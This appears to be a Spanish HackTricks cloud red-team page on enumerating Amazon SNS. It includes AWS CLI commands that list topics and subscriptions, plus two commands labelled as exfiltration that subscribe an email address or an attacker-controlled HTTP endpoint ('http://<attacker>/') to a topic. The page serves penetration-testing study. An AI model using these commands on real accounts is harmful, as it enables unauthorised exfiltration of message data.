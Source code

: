 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) se describe como un **servicio de mensajería completamente gestionado**. Soporta tanto tipos de comunicación **de aplicación a aplicación** (A2A) como **de aplicación a persona** (A2P).

Las características clave para la comunicación A2A incluyen **mecanismos de publicación/suscripción (pub/sub)**. Estos mecanismos introducen **temas**, cruciales para habilitar mensajería **push basada en alta capacidad**, **de muchos a muchos**. Esta característica es altamente ventajosa en escenarios que involucran sistemas distribuidos, microservicios y arquitecturas sin servidor basadas en eventos. Al aprovechar estos temas, los sistemas publicadores pueden distribuir mensajes de manera eficiente a una **amplia gama de sistemas suscriptores**, facilitando un patrón de mensajería de fanout.

### **Diferencia con SQS**

**SQS** es un servicio **basado en colas** que permite la comunicación punto a punto, asegurando que los mensajes sean procesados por un **único consumidor**. Ofrece **entrega al menos una vez**, soporta colas estándar y FIFO, y permite la retención de mensajes para reintentos y procesamiento retrasado.\
Por otro lado, **SNS** es un servicio **basado en publicación/suscripción**, que permite la comunicación **de uno a muchos** al transmitir mensajes a **múltiples suscriptores** simultáneamente. Soporta **diversos puntos finales de suscripción como correo electrónico, SMS, funciones Lambda y HTTP/HTTPS**, y proporciona mecanismos de filtrado para la entrega de mensajes dirigida.\
Mientras que ambos servicios permiten desacoplar componentes en sistemas distribuidos, SQS se centra en la comunicación en cola, y SNS enfatiza patrones de comunicación impulsados por eventos y de fan-out.

### **Enumeración**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Tenga en cuenta que si el **tema es de tipo FIFO**, solo se pueden usar suscriptores que utilicen el protocolo **SQS** (no se puede usar HTTP o HTTPS).

Además, incluso si el `--topic-arn` contiene la región, asegúrese de especificar la región correcta en **`--region`** o recibirá un error que parece indicar que no tiene acceso, pero el problema es la región.
{% endhint %}

#### Acceso No Autenticado

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Escalación de Privilegios

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post Explotación

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistencia

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Referencias

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Aprenda y practique Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda y practique Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoye a HackTricks</summary>

* ¡Revise los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únase al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síganos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparta trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
